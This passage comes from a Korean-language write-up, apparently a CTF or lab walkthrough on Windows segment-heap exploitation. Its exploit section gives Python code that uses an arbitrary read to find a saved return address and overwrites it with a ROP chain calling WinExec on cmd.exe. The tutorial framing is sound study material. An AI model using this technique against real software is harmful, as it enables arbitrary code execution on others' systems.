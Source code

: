 ![Untitled](segment-heap-part5/Untitled%203.png)



# Exploit

필요한 주소를 모두 구했으면 익스는 간단한 ROP입니다. 먼저 arbitrary read를 이용해 return address가 저장된 스택의 주소를 구합니다.

![Untitled](segment-heap-part5/Untitled%204.png)

`binary + 0x1ca7` 은 바로 직전 호출된 `sub_1060` 함수의 return address에 저장되는 주소입니다. 스택 주소를 알고 있으니 스택에서 `binary + 0x1ca7` 값이 저장된 주소를 찾으면 그 주소가 return address 주소라고 볼 수 있겠네요. 

```python
# find return address to overwrite
ret_addr = imagebase + 0x1ca7
start_addr = stack_end - 8

for i in range(0x200):
    addr = start_addr - 8*i
    if readmem(addr) == ret_addr:
        ret = addr
        break
```

아까 문자열 청크 `cmd.exe`를 실행하기 위해 실행할 cmd 바이너리 경로를 `.data` 섹션에 써준다음, 가젯을 구해 구성한 ROP 페이로드를 ret 주소에 overwrite하면?

```python

buf = imagebase + 0x5800
writemem(buf,"C:\\Windows\\system32\\cmd.exe\x00")

ret_gadget = imagebase + 0x1b11
pop_rcx = ntdll + 0x8c541 # pop rcx; pop r8; pop r9; pop r10; pop r11; ret
rop = p64(pop_rcx) + p64(buf) +"b"*32+ p64(ret_gadget) + p64(winexec)  + "b"*8

writemem(ret,p64(ret_gadget)*10 + rop)

p.interactive()
```
